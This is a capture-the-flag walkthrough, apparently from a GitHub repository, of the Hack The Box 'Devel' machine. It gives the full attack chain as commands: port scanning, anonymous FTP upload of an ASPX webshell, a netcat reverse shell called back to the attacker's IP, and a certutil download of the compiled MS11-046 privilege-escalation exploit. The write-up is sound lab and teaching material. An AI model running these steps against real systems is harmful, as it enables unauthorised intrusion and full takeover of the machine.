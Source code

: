 # Devel 

**Links:** [1](https://www.hackthebox.com/machines/Devel)  [2](https://app.hackthebox.com/machines/Devel)

**Machine ip:** 10.10.10.5

![devel](https://github.com/h4md153v63n/CTFs/assets/5091265/9ab7e4a6-088a-4d20-88e1-5bc25641cfa1)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.5 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.5 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fd580f7a-f9d8-4301-9fd7-82b27bb870e8)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/346d5392-a21f-4dde-b88b-5d98570477a1)


## Enumeration
```
ftp anonymous@10.10.10.5

# or

ftp 10.10.10.5

Name (10.10.10.5:kali): anonymous
Password:

dir
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5149c861-836c-4c01-adf3-c5e5c3ad24d8)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/239327b2-ccb6-453a-9645-357665efbd90)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8f62462c-3a38-4713-85c3-4d48866cbec0)


## Exploitation & Gaining Access 
Download, and transfer asp webshell using [cmd.aspx](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx).

```
put cmd.aspx

dir
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cf0496fc-5036-426f-9943-52b96ec96bd1)

Navigate to "http://10.10.10.5/cmd.aspx", and get a webshell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a37e66b5-b01c-4d6a-b2bb-bd8c4c0b464b)

Trigger the reverse shell:

```
# On the kali attack vm:
ls /usr/share/windows-binaries

smbserver.py tmp /usr/share/windows-binaries

nc -lnvp 4444

# On the webshell:
Program: \\10.10.14.24\tmp\nc.exe

Arguments: -e cmd.exe 10.10.14.24 4444

Run
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/34e2978a-e667-4b52-be83-934e27050b5a)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/78cf0d24-8148-458c-9b1d-bb9f20707968)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1f5378dd-6bf9-42f4-86ab-3d02c331d11b)


## Privilege Escalation
```
# On the target machine:
systeminfo
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/89b2ddc2-3b53-41b6-9dc8-56745f3290dc)

Search  **windows 7 build 7600 x86 privilege escalation** on the internet.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5f6364c1-4f41-4730-be7a-50517bec0105)

```
searchsploit ms11-046

searchsploit -m 40564

sed -n '60,70p' 40564.c
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ab0cef06-f654-4927-88ed-0cc94bdc4a2f)

```
# On the kali attack vm:
# Compile:
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32

sudo python3 -m http.server

# On the target machine:
cd Users\Public\Downloads

certutil.exe -urlcache -split -f "http://10.10.14.24:8000/MS11-046.exe" MS11-046.exe

MS11-046.exe
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bdb02526-aad4-4391-86f4-7160e7e7ab36)



# References & Alternatives
+ https://vvmlist.github.io/#devel
+ x


## CVE Scripting
+ x


## Tools
+ **webshell / cmd.aspx:** https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx
  + https://github.com/nikicat/web-malware-collection/blob/master/Backdoors/ASP/cmd.aspx


## Technical Knowledge
+ x


## Problems Solution
+ x


## For More
+ x
